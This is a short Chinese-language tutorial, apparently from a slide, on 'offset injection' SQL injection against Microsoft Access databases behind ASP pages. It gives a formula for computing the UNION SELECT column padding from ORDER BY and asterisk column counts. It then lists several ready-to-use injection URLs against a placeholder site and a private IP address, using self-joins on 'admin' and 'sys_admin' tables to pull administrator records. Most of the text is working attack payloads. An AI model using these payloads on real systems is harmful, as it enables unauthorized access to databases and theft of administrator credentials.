

Access偏移注入公式实践
偏移注入的基本公式为:

           order by 出的字段数减去*号的字段数，然而再用order by的字段数减去2倍刚才得出来的答案

　　　　也就是18-11=7

　　　　　　　18-7*2=4
得到答案等于：4
例如：http://xxx.com/test.asp?id=688 union select 1,2,3,4,a.id,b.id,* from (sys_admin as a inner join sys_admin as b on a.id = b.id)

#这里union select 1,2,3,4：顾名思义就是刚才得出来的长度。
#后面的是sql，可作公式。

http://192.168.1.110/Production/PRODUCT_DETAIL.asp?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22+from+admin
http://192.168.1.110/Production/PRODUCT_DETAIL.asp?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,*+from+admin
22-16 = 6    22-6*2 = 10
http://192.168.1.110/Production/PRODUCT_DETAIL.asp?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,a.id,b.id,*+from+(admin+as+a+inner+join+admin+as+b+on+a.id=b.id)

www.itjc8.com